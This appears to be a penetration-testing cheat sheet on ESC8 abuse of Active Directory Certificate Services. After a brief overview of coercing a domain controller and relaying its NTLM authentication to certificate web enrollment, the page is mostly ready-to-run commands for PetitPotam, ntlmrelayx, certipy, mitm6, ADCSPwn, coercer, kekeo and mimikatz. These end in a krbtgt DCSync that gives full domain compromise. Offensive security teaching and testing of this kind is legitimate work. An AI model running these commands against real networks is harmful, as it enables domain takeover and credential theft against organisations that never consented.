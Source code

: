 # General Overview: 
AD CS supports several HTTP-based enrollment methods if additional server roles are installed (Certificate enrollment web service). There are three methods that can test to abuse this technique.

An attacker can use PetitPotam to force a Domain Controller to relay its NTLM credentials to a target host. These credentials can then be forwarded to the Active Directory Certificate Services (AD CS) Web Enrollment pages, allowing the attacker to enroll for a Domain Controller certificate. This certificate can be used to request a Ticket Granting Ticket (TGT), enabling a Pass-the-Ticket attack that compromises the entire domain.

# # Abusing ESC8 Certificate Templates

## Scenario 1 (Certipy, NTLMrelayx, PetitPotman):
- certipy-ad relay -ca 172.21.1.1
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- python3 PetitPotam -d megacorpone.com -u afsimmons -p Spawn123! 172.21.1.5 MEGACORP
## Scenario 2: 
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- mimikatz> misc::efs /server:dc.lab.local /connect:172.21.1.5 /noauth
-  kekeo> base64 /input:on
- kekeo> tgt::ask /pfx:"BASE64-CERT-FROM-NTLMRELAY" /user:dc$ /domain:megacorpone.com /ptt
- mimikatz> lsadump::dcsync /user:krbtgt
## Scenario 4:
- sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
- sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
## Scenario 5:
- Source: https://github.com/bats3c/ADCSPwn
- adcspwn.exe --adcs "cs server" --port [local port] --remote [computer]
- adcspwn.exe --adcs cs.megacorpone.com
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--port 9001
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com --output C:\Temp\cert_b64.txt
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--username megacorpone.com\afsimmons --password Spawn123! --dc dc.megacorpone.com
## Scenario 6: 
 - impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
 - python3 coercer.py <DC_IP> <YOUR_IP>
 - python3 getTGT.py -dc-ip <DC_IP> -pfx <CERT_FILE.pfx> -no-pass